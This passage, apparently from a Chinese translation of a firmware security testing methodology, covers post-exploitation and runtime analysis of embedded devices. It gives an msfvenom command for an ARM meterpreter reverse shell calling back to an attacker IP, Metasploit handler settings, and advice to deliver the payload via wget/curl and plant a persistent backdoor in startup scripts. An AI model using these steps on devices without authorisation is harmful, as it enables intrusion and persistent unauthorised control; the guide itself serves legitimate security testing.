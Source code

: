 \11. 通过使用固件分析工具包（FAT）进行仿真并使用netcat连接到目标后门IP和端口来测试后门固件。

如果已经通过动态分析，引导加载程序操纵或硬件安全测试手段获得了root shell，尝试执行预编译的恶意文件，例如植入程序或反向shell。使用用于命令和控制（C＆C）框架的自动化有效载荷/植入工具。例如，可以使用以下步骤来利用Metasploit框架和msfvenom。

\1. 确定目标固件架构和字节序

\2. 使用指定适当的目标负载（-p），攻击者主机IP（LHOST =），侦听端口号（LPORT =）文件类型（-f），编译（--arch），平台（--platform Linux或Windows）和输出文件（-o）。例如，msfvenom``msfvenom -p linux/armle/meterpreter_reverse_tcp LHOST=192.168.1.245 LPORT=4445 -f elf -o meterpreter_reverse_tcp --arch armle --platform linux

\3. 将有效负载传到受感染的设备（例如，运行本地Web服务器，并将有效负载wget / curl到文件系统），并确保有效负载具有执行权限

\4. 准备Metasploit以处理传入的请求。例如，使用msfconsole启动Metasploit，然后根据上述有效负载使用以下设置：use exploit / multi / handler，

**·** set payload linux/armle/meterpreter_reverse_tcp

**·** set LHOST 192.168.1.245 #attacker host IP

**·** set LPORT 445 #can be any unused port

**·** set ExitOnSession false

**·** exploit -j -z

**·** 在受感染的设备上执行meterpreter反向shell

**·** 查看 meterpreter sessions

**·** 后渗透攻击

最后，尽可能的在启动脚本中设置对设备持久访问的后门，保证重新启动后也有设备的访问控制权

**0x08 运行时分析**

运行时分析涉及在设备在其正常或仿真环境中运行时附加到正在运行的进程或文件。下面提供了基本的运行时分析步骤：

1. \1. sudo chroot . ./qemu-arch -L。

2. \2. 附加gdb-multiarch或使用IDA模拟文件。

3. \3. 为步骤4中识别的函数设置断点，例如memcpy，strncpy，strcmp等。

4. \4. 使用Fuzzer执行较大的payload字符串挖掘溢出或进程崩溃。

5. \5. 如果发现漏洞，请移至步骤8。

6. 会用到的工具：

7. **·** gdb-multiarch

8. ***\*·\**** [Peda](https://github.com/longld/peda)

9. **·** Frida

10. **·** ptrace

11. **·** strace

12. **·** IDA Pro

13. **·** Ghidra

14. **·** Binary Ninja

